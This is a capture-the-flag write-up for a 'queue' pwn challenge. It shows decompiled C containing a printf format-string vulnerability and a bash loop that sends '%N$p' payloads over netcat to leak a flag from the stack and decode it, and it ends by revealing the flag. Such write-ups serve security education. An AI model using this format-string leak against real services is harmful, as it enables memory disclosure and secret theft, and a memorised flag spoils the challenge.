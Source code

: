 #### Challenge:

I just learned about stacks and queues in DSA! `nc challs.actf.co 31322`

[queue](./queue ":ignore")

---

#### Solution:

- reversing the binary in `ghidra` reveals that we need to leak the `stack` content via `fprint` as out input is later printed via it
```c
void main(void)

{
  __gid_t __rgid;
  FILE *__stream;
  long in_FS_OFFSET;
  char input_var [48];
  char flag_var [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: missing flag.txt.");
    exit(1);
  }
  fgets(flag_var,0x80,__stream);
  printf("What did you learn in class today? ");
  fgets(input_var,48,stdin);
  printf("Oh nice, ");
  printf(input_var);
  printf("sounds pretty cool!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

```bash
for i in `seq 12 20`; 
    do echo "%${i}\$p" | \
        nc challs.actf.co 31322 | \
        grep 0x | awk '{print substr($10, 3)}' | \
        fold -w2 | \
        tac | \
        tr -d "\n"
done | xxd -r -p
```

---

<details><summary>FLAG:</summary>

```
actf{st4ck_it_queue_it_a619ad974c864b22}
```

</details>
<br/>
